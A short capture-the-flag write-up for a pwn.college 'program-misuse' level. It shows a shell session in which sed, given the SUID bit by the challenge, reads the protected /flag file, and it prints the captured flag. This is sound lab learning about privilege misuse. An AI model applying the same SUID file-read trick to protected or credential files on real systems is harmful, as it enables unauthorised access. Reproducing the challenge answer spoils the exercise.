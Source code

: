 `sed` is a stream editor. A stream editor is used to perform basic text transformation on an input stream(a `file` or a input from a pipeline).

https://www.gnu.org/software/sed/manual/sed.html

If you just go through the article a little bit, you will find this:

> [!NOTE]
> `Use -n to suppress output, and the 'p' command to print specific lines. The following command prints only line 45 of the input file:`
> 
> ```bash
> sed -n '45p' file.txt
> ```

```bash
hacker@program-misuse-level-35:~$ cd /
hacker@program-misuse-level-35:/$ cd challenge/
hacker@program-misuse-level-35:/challenge$ ls
babysuid_level35
hacker@program-misuse-level-35:/challenge$ ./babysuid_level35 
Welcome to ./babysuid_level35!

This challenge is part of a series of programs that
will require some light programming to read the flag..

I just set the SUID bit on /usr/bin/sed.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level35) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/sed!
hacker@program-misuse-level-35:/challenge$ sed /flag
sed: -e expression #1, char 5: unterminated address regex
hacker@program-misuse-level-35:/challenge$ sed cd /
sed: read error on /: Is a directory
hacker@program-misuse-level-35:/challenge$ cd /
hacker@program-misuse-level-35:/$ sed flag
sed: -e expression #1, char 1: unknown command: `f'
hacker@program-misuse-level-35:/$ sed -n flag
sed: -e expression #1, char 1: unknown command: `f'
hacker@program-misuse-level-35:/$ sed -n '1p' flag
pwn.college{0Fpz88c8uNB050m8T__5U5d5QDx.01N3EDL0AjNzQzW}
```


